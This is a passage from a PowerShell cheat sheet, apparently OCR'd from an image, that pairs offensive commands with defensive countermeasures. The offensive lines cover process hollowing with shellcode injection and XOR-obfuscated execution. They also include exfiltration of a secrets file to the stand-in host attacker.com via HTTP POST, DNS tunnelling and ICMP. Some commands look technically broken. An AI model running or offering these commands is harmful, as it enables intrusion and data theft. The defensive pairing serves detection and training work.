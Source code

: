 #### **Process Hollowing**  
**Offensive Command**:  
```powershell  
Invoke-ReflectivePEInjection -PEBytes $shellcode -ProcessID (Get-Process notepad).Id  
```  
**Defense**:  
```powershell  
# Detect code injection with Sysmon  
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 8 }  
```  

#### **Obfuscate with XOR**  
**Offensive Command**:  
```powershell  
$encrypted = $shellcode | % { $_ -bxor 0xAA }; Invoke-Expression $encrypted  
```  
**Defense**:  
```powershell  
# Enable AMSI and script block logging  
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1  
```  

---

### **6. Data Exfiltration**  
#### **Exfil via HTTP**  
**Offensive Command**:  
```powershell  
Invoke-WebRequest -Uri "http://attacker.com/exfil" -Method POST -Body (Get-Content C:\secrets.txt)  
```  
**Defense**:  
```powershell  
# Block outbound traffic to unknown domains  
New-NetFirewallRule -DisplayName "Block Unknown Domains" -Direction Outbound -Action Block -Protocol TCP -RemotePort 80,443  
```  

#### **DNS Tunneling**  
**Offensive Command**:  
```powershell  
Resolve-DnsName -Name "$([Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\secrets.txt'))).attacker.com" -Type TXT  
```  
**Defense**:  
```powershell  
# Block PowerShell DNS requests  
New-NetFirewallRule -DisplayName "Block PS DNS" -Direction Outbound -Action Block -Protocol UDP -RemotePort 53 -Program "powershell.exe"  
```  

#### **ICMP Covert Channel**  
**Offensive Command**:  
```powershell  
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt")); ping -n 1 -l 1000 -w 1 attacker.com -p $data  
```  
**Defense**:  
```powershell  
# Block oversized ICMP packets  
New-NetFirewallRule -DisplayName "Block ICMP Payloads" -Direction Outbound -Action Block -Protocol ICMPv4  
```  
